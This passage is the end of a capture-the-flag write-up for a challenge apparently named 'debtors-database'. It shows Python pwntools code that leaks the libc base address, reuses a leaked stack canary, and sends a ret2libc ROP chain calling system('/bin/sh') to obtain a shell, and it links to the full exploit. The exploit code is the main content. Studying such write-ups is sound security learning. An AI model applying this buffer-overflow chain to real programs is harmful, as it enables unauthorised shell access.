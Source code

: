 ```python
	print_leak("libc base address", libc.address)


	libc_rop = ROP(libc)
	pop_rdi = libc_rop.find_gadget(["pop rdi", "ret"])[0]
	binsh = next(libc.search(b"/bin/sh"))
	system = libc.sym.system
	ret = libc_rop.find_gadget(['ret'])[0]

	print_leak("system", system)
	print_leak("binsh",binsh)
	print_leak("pop rdi", pop_rdi)

	offset = 56

	payload = flat(
		cyclic(offset),
		canary,
		cyclic(8),
		ret,
		pop_rdi,
		binsh, 
		system
	)

	sla(b"go back...", b'')
	sla(b">> ", b'4')
	sla(b"admin access: ", payload)
```

The result
![about binary](/assets/images/writeups/qnqsec/shell.png)

And just like that we get a shell.

[Full Exploit Code Here](https://github.com/t1b4n3/ctf-writeups/qnqsec/debtors-database/xpl.py)

